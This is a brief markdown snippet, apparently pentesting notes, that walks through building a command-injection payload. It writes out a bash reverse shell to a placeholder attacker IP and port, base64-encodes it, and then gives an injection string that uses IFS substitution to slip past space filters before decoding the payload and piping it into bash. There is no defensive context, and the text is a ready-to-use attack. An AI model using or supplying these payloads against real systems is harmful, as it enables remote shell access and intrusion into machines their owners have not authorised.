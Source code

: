 ### Create the bash reverse shell payload and encode via Base64 to get rid of any bad characters

```sh
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

### Inject using bash payload

```sh
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
